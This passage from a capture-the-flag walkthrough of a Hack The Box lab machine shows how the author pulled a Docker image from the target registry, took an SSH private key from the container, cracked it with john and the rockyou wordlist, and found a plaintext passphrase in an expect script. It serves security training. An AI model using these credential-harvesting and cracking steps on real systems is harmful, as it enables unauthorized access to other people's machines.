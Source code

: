 ```
z4e5vLz0Y3NhMKobft+vzBt2GbJIzo8DbmDBD3z1WQU+GLTnXyUAPF9J6fhtUgKm
hoq1S8YsKRt/NMJwZMk3GiIw1c7KEN3/9XqJ9lfIyeXqVc6XBvuiZ+ssjDId0RZO
7eWWELxItMHPVScwWpOA7B4INPM6USKGy7hUTFcPJZB7+ElTFO2h0c4MwFQcSqKW
BUG+oUPpMOoO99ZRnX8D5/H3dvbuBsuqKgRrPmQnMehoWs7pNRUDudUnnLfGEJHh
PEyspHOCbg1C6a0gI1xo0c0=
-----END CERTIFICATE-----
```

After putting the certificate to the right place in the right format, ```docker pull``` finally works.

Then we can run the container and log in:
```
root@rot-t420:~/htb-notes/registry# docker -v run -it docker.registry.htb/bolt-image:latest /bin/bash
root@27ed4fc85997:/# 
```

Inside the container, from /root/.ssh we can pull a key.

# Cracking passwords

And *ssh2john* to crack it:

```
root@rot-t420:~/htb-notes/registry# john --wordlist=/usr/share/wordlists/rockyou.txt bolt-image-johnkey 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates left, minimum 4 needed for performance.
0g 0:00:00:05 DONE (2020-02-06 15:07) 0g/s 2812Kp/s 2812Kc/s 2812KC/sa6_123..*7¡Vamos!
```

# Looking for history

From *.viminfo* we find something - some files have been edited.

```
root@27ed4fc85997:~# cat /etc/profile.d/01-ssh.sh 
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
```

And 
```
root@27ed4fc85997:~# cat /var/www/html/sync.sh 
#!/bin/bash
rsync -azP registry:/var/www/html/bolt .
```
# User flag
